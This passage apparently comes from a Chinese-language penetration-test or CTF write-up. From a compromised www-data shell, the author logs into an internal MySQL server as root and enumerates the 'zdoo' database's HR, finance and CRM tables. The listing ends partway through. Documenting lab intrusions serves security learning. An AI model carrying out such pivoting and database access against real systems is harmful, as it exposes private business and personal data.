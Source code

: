 尝试使用 `root` 用户登录，成功访问

```shell
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 25
Server version: 5.7.26 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| zdoo               |
+--------------------+
5 rows in set (0.00 sec)
```

在 `zdoo` 数据库中进行摸索

```sql
mysql> use zdoo;
Database changed
mysql> show tables;
+--------------------------------+
| Tables_in_zdoo                 |
+--------------------------------+
| hr_hpfbase                     |
| zdooameba_budget               |
| zdooameba_category             |
| zdooameba_deal                 |
| zdooameba_dealdetail           |
| zdooameba_dept                 |
| zdooameba_fee                  |
| zdooameba_rule                 |
| zdooameba_setting              |
| zdooameba_sharefee             |
| zdooameba_statement            |
| zdooameba_user                 |
| zdoocash_balance               |
| zdoocash_depositor             |
| zdoocash_fund                  |
| zdoocash_invoice               |
| zdoocash_invoicedetail         |
| zdoocash_kingdeeaccount        |
| zdoocash_mappingrelation       |
| zdoocash_trade                 |
| zdoocash_tradeinvoice          |
| zdoocash_voucher               |
| zdoocash_voucherdetail         |
| zdoocrm_address                |
| zdoocrm_contact                |
| zdoocrm_contract               |
```